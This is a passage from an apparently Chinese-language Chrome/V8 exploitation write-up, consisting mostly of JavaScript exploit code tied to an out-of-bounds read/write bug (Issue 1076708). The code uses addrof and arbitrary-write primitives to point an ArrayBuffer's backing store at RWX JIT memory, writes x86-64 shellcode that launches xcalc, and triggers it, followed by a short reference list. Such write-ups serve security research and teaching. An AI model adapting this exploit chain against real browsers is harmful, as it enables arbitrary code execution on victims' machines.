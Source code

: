```
print('[+] rwx_addr : ' + hex(rwx_addr)) var shellcode = Array(20);
shellcode[0] = 0x90909090;
shellcode[1] = 0x90909090;
shellcode[2] = 0x782fb848;
shellcode[3] = 0x636c6163; //xcalc
shellcode[4] = 0x48500000;
shellcode[5] = 0x73752fb8;
shellcode[6] = 0x69622f72;
shellcode[7] = 0x8948506e;
shellcode[8] = 0xc03148e7;
shellcode[9] = 0x89485750;
shellcode[10] = 0xd23148e6;
shellcode[11] = 0x3ac0c748;
shellcode[12] = 0x50000031;
shellcode[13] = 0x4944b848;
shellcode[14] = 0x414c5053;
shellcode[15] = 0x48503d59;
shellcode[16] = 0x3148e289;
shellcode[17] = 0x485250c0;
shellcode[18] = 0xc748e289;
shellcode[19] = 0x00003bc0;
shellcode[20] = 0x050f00;
var shellcode_buf = new ArrayBuffer(0x100);
var dataview = new DataView(shellcode_buf);
aaw(addrof(shellcode_buf) + 0x14n, rwx_addr); //cheng back_store
for (var i = 0; i &lt; shellcode.length; i++) `{`
    dataview.setUint32(4 * i, shellcode[i], true);
`}`
print("[+] Okey! Trigger my shellcode :p");
f();
```

shellcode和上次的一样。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t013b1027b237bdd214.jpg)

**参考**

Issue 1076708: OOB read/write

Introduction to TurboFan

Modern attacks on the Chrome browser : optimizations and deoptimizations
